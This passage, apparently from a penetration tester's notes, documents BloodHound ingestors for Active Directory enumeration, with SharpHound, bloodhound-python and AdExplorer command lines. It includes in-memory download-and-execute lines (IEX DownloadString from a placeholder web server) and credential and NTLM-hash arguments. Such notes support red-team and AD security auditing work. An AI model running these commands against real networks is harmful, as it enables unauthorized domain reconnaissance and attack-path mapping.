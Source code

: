 Usage:

```bash
# PowerShell SharpHound.ps1 collector.
# The SharpHound.ps1 PowerShell collector script in-lines the SharpHound C# DLL.
# Multiple ways can be used to import or directly inject into memory the SharpHound.ps1 script.
Import-Module SharpHound.ps1

IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/SharpHound.ps1');

(New-Object System.Net.WebClient).Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');

Invoke-Bloodhound -Verbose -CollectionMethod <all | DcOnly | COLLECTION_METHOD>
Invoke-Bloodhound -Verbose -Domain '<DOMAIN_FQDN>' -DomainController '<DC_IP | DC_HOSTNAME>' -LDAPUsername '<USERNAME>' -LDAPPassword '<PASSWORD>' -CollectionMethod <all | DcOnly | COLLECTION_METHOD>

# C# SharpHound.exe collector.
SharpHound.exe -v -c <all | DcOnly | COLLECTION_METHOD>
SharpHound.exe -v --Domain '<DOMAIN_FQDN>' --domaincontroller '<DC_IP | DC_HOSTNAME>' --ldapusername '<USERNAME>' --ldappassword '<PASSWORD>' -c <all | DcOnly | COLLECTION_METHOD>
```

*BloodHound.py*

`bloodhound-python.py` is a Python based ingestor for `BloodHound`, based on
the `Impacket` suite and only compatible with `BloodHound 3.0`, or newer
versions. `bloodhound-python.py` presents the main advantage of being usable on
Linux systems and thus easily integrates with `proxychains` for pivoted Active
Directory enumeration.

`bloodhound-python.py` supports most of `SharpHound` collect methods, specified
above, except `GPOLocalGroup` and `LocalGroup`.

```bash
bloodhound-python -v -CollectionMethod  <all | DcOnly | <COLLECTION_METHOD>

# The specified domain controller must be a hostname. The -ns must be specified to a DNS server IP if the DC hostname is not resolved by the local system.
# --dns-tcp: The DNS queries will be made over TCP instead of UDP, useful to enumerate over SOCKS4 proxies which do not support the UDP protocol.
bloodhound-python -v --dns-tcp -dc <DC_HOSTNAME> -ns <DNS_SERVER_IP> -d <DOMAIN_FQDN> -u <USERNAME> [-p <PASSWORD> | --hashes ':<NTLM>'] -CollectionMethod  <all | DcOnly | <COLLECTION_METHOD>
```

*Sysinternals's AdExplorer and ADExplorerSnapshot.py*

Active Directory domain snapshots taken with `AdExplorer` can be converted to
`JSON` files supported by `BloodHound` using the
[`ADExplorerSnapshot.py`](https://github.com/c3c/ADExplorerSnapshot.py) Python
script. `AdExplorer` can thus be used as an ingestor for `BloodHound`. Refer to
the `[ActiveDirectory] Recon - Domain Recon` note for more information on
`AdExplorer`.
